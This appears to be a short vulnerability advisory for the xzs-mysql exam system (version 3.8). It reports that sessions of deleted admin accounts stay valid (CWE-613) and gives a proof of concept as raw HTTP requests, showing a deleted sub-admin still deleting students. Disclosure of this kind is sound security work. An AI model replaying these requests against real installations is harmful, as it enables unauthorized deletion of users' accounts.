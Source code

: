 ## TYPE: Insufficient Session Expiration(CWE-613)

## Date: 3/13/2024
## Vendor
[mindskip](https://github.com/mindskip)
Homepage: https://github.com/mindskip/xzs-mysql
version: 3.8(updated 7/19/2022)
commit: 189b03f63bef4e2bfeba7003512860283ee27605(updated 3/8/2024)
## Tested on: Debian Linux, Mysql

## Exploit Description
Suffering from CWE613-Insufficient Session Expiration, which allows attackers to use the session of a deleted admin to do anything.
### PoC
1. `admin` login
2. `admin` create another admin named `sub-admin`
```
POST 	/api/admin/user/edit HTTP/1.1
{"id":null,"userName":"sub-admin","password":"123456"...}
```
3. `sub-admin` logged in 
4. `admin` delete `sub-admin`
```
POST /api/admin/user/delete/12 HTTP/1.1
```
5. `sub-admin` can still delete students
```
POST /api/admin/user/delete/15 HTTP/1.1
...
response: 
HTTP/1.1 200 OK
{"code":1,"message":"成功","response":null}
```

